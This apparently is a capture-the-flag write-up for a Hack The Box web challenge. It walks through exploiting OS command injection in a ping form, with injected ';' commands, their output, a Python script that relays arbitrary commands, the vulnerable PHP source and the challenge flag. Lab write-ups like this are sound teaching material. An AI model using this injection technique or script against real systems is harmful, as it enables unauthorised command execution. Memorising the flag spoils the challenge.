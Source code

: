 # Looking Glass

## Analysis

When we start the instance, we are met with an options menu:

![](../../.gitbook/assets/image%20%2828%29.png)

It appears as if we can input the IP, which is then pinged. Let's imagine for a second how this could be implemented on the server side. A common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + ip);
```

Essentially, we're passing the parameters to bash. This means we could, theoretically, insert a `;` character into the `ip` variable, and everything behind it would be interpreted as a seperate command, e.g.:

```php
system("ping -c 4 178.62.0.100; ls");
```

Here, `ls` would be run as a separate command. Let's see if it works!

## Exploitation

Let's try it by simply inputting `; ls` to the end of the IP and submitting:

```text
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
index.php
```

Look - as well as the `ping` command, we get `index.php`, which is the result of the `ls` command!

There doesn't appear to be a flag, so we'll try `; ls /` to read the root directory next:

```text
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
bin
boot
dev
entrypoint.sh
etc
flag_2viTb
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```

Woo - there's a `flag_2viTb` file! Now we'll inject `; cat /flag_2viTb` to read the flag:

```text
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

And boom, we've got the flag - `HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}`.

## Automation

Because I prefer a command-line interface, I originally created a simple script to inject parameters for me:

```python
from requests import post

cmd = input('>> ')

data = {'test': 'ping', 'ip_address': f'178.62.0.100; {cmd}', 'submit': 'Test'}
r = post('http://178.62.0.100:30134/', data=data)

data = r.text
data = data.split('packet loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

This simply inputs the command as `cmd`, sets the POST parameters, and \(really messily\) parses the response to return just the data.

```text
$ python3 exploit.py 
>> cat /flag_2viTb      
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source

We can inject `cat index.php` to see what exactly was happening, and we immediately see the following lines:

```php
function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}
```

As we guessed, it passed in the input _without sanitising it_ to remove potential injection.

